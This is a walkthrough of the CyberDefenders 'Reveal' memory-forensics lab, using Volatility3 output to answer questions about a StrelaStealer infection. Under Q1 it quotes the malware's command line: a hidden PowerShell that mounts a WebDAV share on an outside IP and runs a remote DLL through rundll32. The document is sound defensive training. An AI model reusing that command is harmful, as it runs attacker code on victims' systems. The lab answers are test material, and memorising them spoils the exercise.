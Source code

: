 https://cyberdefenders.org/blueteam-ctf-challenges/revil/

This is a brief description of my work on the CyberDefenders "Reveal" lab (category: Endpoint Forensics). It has a difficulty of Easy.


Here is the scenario:


*As a cybersecurity analyst for a leading financial institution, an alert from your SIEM solution has flagged unusual activity on an internal workstation. Given the sensitive financial data at risk, immediate action is required to prevent potential breaches.*


*Your task is to delve into the provided memory dump from the compromised system. You need to identify basic Indicators of Compromise (IOCs) and determine the extent of the intrusion. Investigate the malicious commands or files executed in the environment, and report your findings in detail to aid in remediation and enhance future defenses.*

To get started, I ran a few Volatility3 plugins with the output directed into their own file: psxview, pstree, cmdline, netscan, malfind. See the files in this folder for the output.
Then I imported the output into a spreadsheet application for easier review: the tab-delimited output doesn't render correctly in Notepad or Notepad++, and its easier to sort the data this way.

I made some initial observations and bolded these rows for follow up later: 

- powershell.exe and msiexec.exe in the "psxview" output, and

- WMiPrvSE.exe, Calculator.exe (this is a child process of svchost.exe, which is suspicious), and the orphaned processes MicrosoftEdgeUpdater.exe, wordpad.exe, powershell.exe, and net.exe.

Looking at the "pstree" output, the command line associated with powershell.exe was the apparent malicious process: use of rundll32 to load a DLL over a network share is a popular method to load and execute code directly in memory, without leaving any disk artifacts behind.

Now for the questions!

Q1 Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process? **powershell.exe**
- I ran the "pstree" plugin, identified a suspicious process and confirmed after a review of the command line used to execute it: 
`powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`

Q2 Knowing the parent process ID (PID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process? **4120**
- I learned this from reviewing the "pstree" output.

Q3 Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload? **3435.dll**
- I learned this from reviewing the command described in the answer for Q1.

Q4 Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server? davwwwroot
- I learned this from reviewing the command described in the answer for Q1.

Q5 What is the MITRE sub-technique ID used by the malware to execute the second-stage payload? T1218.011 (System Binary Proxy Execution: Rundll32)
- I searched the MITRE ATT&CK website to find the sub-technique ID associated with rundll32.

Q6 Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under? Elon
- I ran the "getsids" plugin against the malicious process ID.

Q7 Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family? STRELASTEALER
- I looked up the IP address from the command described in the answer for Q1 in VirusTotal.
